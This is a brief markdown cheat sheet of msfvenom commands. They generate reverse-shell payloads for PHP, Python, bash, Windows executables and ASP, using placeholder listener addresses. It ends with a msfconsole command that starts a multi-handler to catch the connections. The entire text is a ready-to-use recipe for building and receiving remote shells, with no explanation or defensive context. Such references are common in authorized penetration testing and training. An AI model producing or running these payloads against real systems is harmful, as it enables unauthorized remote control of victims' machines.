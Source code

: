 # msfvenom

## Reverse TCP

msfvenom -p php/meterpreter_reverse_tcp LHOST=xx.xx.xx.xx LPORT=4444 -f raw > shell.php\
msfvenom -p cmd/unix/reverse_python LHOST=xx.xx.xx.xx LPORT=4444 -f raw > shell.py\
msfvenom -p cmd/unix/reverse_bash LHOST=xx.xx.xx.xx LPORT=4444 -f raw > shell.sh\
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LPORT=5555 LHOST=xxx.xxx.xxx.xxx -f exe -e generic/none -o ./2.exe
msfvenom -p windows/shell_reverse_tcp LHOST=xxxxxxxx LPORT=9001 -f asp > shell.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxxxxxx LPORT=9002 -f asp > msf.asp

## Run msf rc script.

msfconsole -r multihandler.rc
